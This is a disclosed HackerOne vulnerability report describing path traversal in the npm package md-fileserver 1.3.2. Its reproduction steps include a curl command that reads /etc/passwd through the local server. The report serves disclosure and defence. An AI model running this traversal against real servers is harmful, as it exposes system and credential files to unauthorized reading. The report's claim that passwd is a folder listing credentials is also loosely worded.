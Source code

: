 # [md-fileserver] Path Traversal

## Report Details
- **Report ID**: 509697
- **URL**: https://hackerone.com/reports/509697
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-14T15:06:55.721Z
- **Disclosed**: 2020-01-29T16:25:58.740Z

## Reporter
- **Username**: johnssimon007
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal in md-fileserver modulee
It allows an attacker to read system files via path traversal through commandline


# Module

**module name:** md-fileserver
**version:** 1.3.2
**npm page:** `https://www.npmjs.com/package/md-fileserver`

## Module Description
Starts a local server to render "markdown" files within your browser:

# Vulnerability

## Vulnerability Description
Directory traversal through the url which doesn't verify the file is from the root directory path.

## Steps To Reproduce:
1.npm install -g md-fileserver

2.start the local server by typing below on commandline
$mdstart

3.now on terminal type
curl -v --path-as-is http://127.0.0.1:8080/etc/passwd

it will list all the credentials in passwd folder

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- [OPERATING SYSTEM VERSION] kali linux
- [NODEJS VERSION] 11.8.0
- [NPM VERSION] 6.5.0

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

This vulnerability allows malicious user to read content of any file on the server, which leads to data breach or other attacks.

## Attachments
- Screenshot_from_2019-03-14_20-39-50.png

